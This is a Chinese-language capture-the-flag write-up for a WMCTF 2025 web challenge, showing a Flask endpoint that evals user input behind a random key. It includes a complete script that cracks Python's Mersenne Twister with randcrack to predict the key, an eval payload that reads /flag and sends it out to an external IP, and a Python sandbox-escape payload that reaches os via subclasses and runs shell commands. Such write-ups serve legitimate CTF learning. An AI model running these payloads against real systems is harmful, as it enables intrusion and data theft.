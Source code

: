 # WMCTF 2025 Web WP
## guess WP
### 首先，这个题目注册登录谁都会，所以我们直接看关键代码：
```python
import random

rd = random.Random() // 关键点1


@app.post('/api')
def protected_api():

    data = request.get_json()

    key1 = data.get('key')
    
    if not key1:
        return jsonify({'error': 'key are required'}), 400

    key2 = generate_random_string()
    
    if not str(key1) == str(key2):
        return jsonify({
            'message': 'Not Allowed:' + str(key2) ,
        }), 403
    

    payload = data.get('payload')

    if payload:
        eval(payload, {'__builtin__':{}})  // 关键点2
    
    return jsonify({
        'message': 'Access granted',
    })

```

### 预测随机数
如代码所示，这里使用的是random库的random函数，这个函数的算法实际上是梅森旋转算法，根据前随机生成的624个数字可以预测下一个数字，所以这里我们第一步需要破解随机数
py脚本如下：
```python
import requests, re
from randcrack import RandCrack

url = "http://49.232.42.74:32328/api"
session = "eyJ1c2VyX2lkIjoiMzM5NTYxNzk0MyIsInVzZXJuYW1lIjoiYWRtaW4ifQ.aM62Kg.XvLwMeAsN6Bx2n66X2JejxJZR1E"

with open("number.txt", 'w') as f:
    f.write('')

for _ in range(624):
    response = requests.post(url, headers={'Cookie': session}, 
                             json={"key":123, "payload": 123}, timeout=10)
    msg = response.json().get('message', '')
    match = re.search(r':(\d+)', msg)
    number = match.group(1)
    print(msg, number)
    with open("number.txt", 'a+') as f:
        f.write(number)
        f.write("\n")

rc = RandCrack()

numbers = []
with open("number.txt", 'r') as f:
    numbers = [int(line.strip()) for line in f.readlines()]

for number in numbers:
    rc.submit(number)

key = rc.predict_getrandbits(32)
print(key)

response = requests.post(url, 
                         headers={'Cookie': session}, 
                         json=
                         {
                            "key":key,
                            "payload": """__import__('urllib').request.urlopen("http://47.95.170.101:9999/upload?msg=1"+open('/flag','r').read())"""
                         },
                         timeout=10)
for i in range(5):
    key = rc.predict_getrandbits(32)
    print(key)
print(response.content)
```
### 构造payload命令
这个脚本首先的作用是发送624次请求，然后获取返回的key2，也就是生成的随机数，然后预测下一次生成的随机数，匹配成功后就可以注入代码，上面的网页代码中虽然做了过滤，但是实际上是一个无用的过滤，因为py3已经不适用__builtin__

这里我们构造的命令注入代码是这样的：

```python
__import__('urllib').request.urlopen("http://外部服务器url/upload?msg=1"+open('/flag','r').read())
```
先读取flag的内容，然后使用python的urllib库函数发送request到服务器上接收，接着到外部服务器上直接读取flag。这是在出网的前提下才能适用的做法，下面介绍一种不出网的做法：

这个题目由于权限问题，在使用数据外带的方法之前，尝试过各种方法，比如将flag直接写入同级目录下、404污染、将flag写入login.html文件下等方法，均失败。

首先，构造出可执行系统命令的lamda函数，然后创建static静态文件夹，再将flag写入static文件夹下，之后直接访问flag文件就可以了。
payload如下：
```python
(lambda o: 
    [
        o.mkdir('static'), 
        open('static/flag','w').write(o.popen('tac /flag').read())
    ]
)(next(
    c.__init__.__globals__['os'] 
    for c in ().__class__.__base__.__subclasses__() 
    if hasattr(c.__init__,'__globals__') 
    and 'os' in c.__init__.__globals__
))
```





